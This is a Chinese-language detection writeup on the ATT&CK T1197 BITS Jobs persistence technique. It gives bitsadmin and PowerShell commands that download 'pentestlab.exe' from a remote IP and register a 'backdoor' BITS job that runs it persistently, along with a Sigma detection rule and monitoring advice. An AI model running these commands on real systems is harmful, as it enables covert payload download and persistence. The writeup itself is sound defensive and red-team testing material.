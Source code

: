 # T1197-win-BITS Jobs权限维持

## 来自ATT&CK的描述

Windows BITS（后台智能传输服务）是一种通过COM（组件对象模型）公开的低带宽异步文件传输机制。BITS通常由更新程序、消息程序和其他希望在后台运行（使用可用空闲带宽）而不中断其他网络应用的程序使用。文件传输任务被实现为BITS任务，其中包含一个或多个文件操作队列。

可以通过PowerShell和BITSAdmin工具访问BITS任务创建和管理接口。

攻击者可能会在运行恶意代码后滥用BITS来实现下载、执行甚至清理动作。BITS任务包含在BITS任务数据库中，不需创建新文件或修改注册表，且通常是主机防火墙允许的。启用BITS的执行还可以通过创建长期任务（默认最大生命周期为90天且可延长）或在任务完成或出现错误（包括系统重启后的错误）时调用任意程序来允许持久性。

BITS上传功能也可用于执行Exfiltration Over Alternative Protocol。

## 测试案例

Windows操作系统包含各种实用程序，系统管理员可以使用它们来执行各种任务。这些实用程序之一是后台智能传输服务（BITS），它可以促进文件到Web服务器（HTTP）和共享文件夹（SMB）的传输能力。Microsoft提供了一个名为“bitsadmin”的二进制文件和PowerShell cmdlet，用于创建和管理文件传输。

从攻击的角度来看，可以滥用此功能，以便在受感染的主机上下载有效负载（可执行文件，PowerShell脚本，Scriptlet等）并在给定时间执行这些文件，在红队操作中可以用作保持持久性。但是，与“bitsadmin”进行交互需要管理员级别的权限。

执行以下命令会将恶意有效负载从远程位置下载到本地目录。

```dos
bitsadmin /transfer backdoor /download /priority high http://10.0.2.21/pentestlab.exe C:\tmp\pentestlab.exe #注意此处下载地址必须是标准的HTTP协议。
```

还有一个PowerShell cmdlet可以执行相同的任务。

```powershell
Start-BitsTransfer -Source "http://10.0.2.21/pentestlab.exe" -Destination "C:\tmp\pentestlab.exe"
```

将文件放入磁盘后，可以通过从“bitsadmin”实用程序执行以下命令来实现持久性。用法非常简单：

- 在创建参数需要任务的名称

``` dos
bitsadmin /create backdoor
```

- 该addfile需要文件的远程位置和本地路径

``` dos
bitsadmin /addfile backdoor "http://10.0.2.21/pentestlab.exe"  "C:\tmp\pentestlab.exe"
```

- 该SetNotifyCmdLine将执行的命令

```dos
bitsadmin /SetNotifyCmdLine backdoor C:\tmp\pentestlab.exe NUL
```

- 所述SetMinRetryDelay定义时间回调（秒）

```dos
bitsadmin /SetMinRetryDelay "backdoor" 60
```

- 该简历参数将运行位工作

```dos
bitsadmin /resume backdoor
```

## 检测日志

windows 安全日志/windows BITS应用日志/Windows sysmon日志

## 测试复现

![image1](https://img2018.cnblogs.com/blog/894761/201911/894761-20191111110145812-668139170.png)

![image2](https://img2018.cnblogs.com/blog/894761/201911/894761-20191111110227491-23710429.png)

![image3](https://img2018.cnblogs.com/blog/894761/201911/894761-20191111110245500-1362389929.png)

## 测试留痕

![image4](https://s2.ax1x.com/2020/01/14/lqedzV.png)

![image5](https://s2.ax1x.com/2020/01/14/lqeWz6.png)

![image6](https://s2.ax1x.com/2020/01/14/lqmiYn.png)

## 检测规则/思路

### Sigma规则

```yml
title: Bitsadmin Download
status: 测试阶段
description: 试用bitsadmin进行下载任务
references:
    - https://blog.netspi.com/15-ways-to-download-a-file/#bitsadmin
    - https://isc.sans.edu/diary/22264
tags:
    - attack.defense_evasion
    - attack.persistence
    - attack.t1197
    - attack.s0190
logsource:
    category: process_creation
    product: windows
detection:
    selection1:
        Eventid:
            - 4688 #windows 进程创建，当系统版本在2012以上，可记录命令行参数，可基于命令行参数进行监控。
            - 1    #sysmon 进程创建，当系统中部署有sysmon，可通过sysmon中的进程创建日志进行监控。
        Image:
            - '*\bitsadmin.exe' #此规则检测作用有限，不针对powershelll下场景做检测
        CommandLine:
            - '* /transfer *'
    selection2:
        CommandLine:
            - '*copy bitsadmin.exe*'
    condition: selection1 or selection2
fields:
    - CommandLine
    - ParentCommandLine
falsepositives:
    - Some legitimate apps use this, but limited.
level: medium
```

### 建议

建议非系统程序发起的BITS传送任务进行分析检测（白名单机制）。

BITS作为服务运行。可使用Sc查询实用程序（sc query bits）来检查其状态。可使用BITSAdmin工具（bitsadmin/list/allusers/verbose）枚举活跃的BITS任务。

监控BITSAdmin工具（尤其是Transfer，Create，AddFile，SetNotifyFlags，SetNotifyCmdLine，SetMinRetryDelay，SetCustomHeaders和Resume命令选项）的使用及Windows事件日志来查看BITS活动。还要考虑通过解析BITS任务数据库来调查任务相关的更多详细信息。

监控和分析BITS生成的网络活动。BITS任务使用HTTP（S）和SMB进行远程连接，仅限于创建用户，并且仅在该用户登录时才起作用（即使用户将任务附加到服务账号，此规则也适用）。

## 参考推荐

Window权限维持（六）

BITS Jobs <https://www.cnblogs.com/xiaozi/p/11833583.html>

MITRE-ATT&CK-T1197

<https://attack.mitre.org/techniques/T1197/>

MITRE ATT&CK 攻击知识库（企业）中文版

<https://hansight.github.io/#/detail>

BITS持久化留痕日志文件下载地址

<https://github.com/sbousseaden/EVTX-ATTACK-SAMPLES/blob/master/Persistence/persist_bitsadmin_Microsoft-Windows-Bits-Client-Operational.evtx>
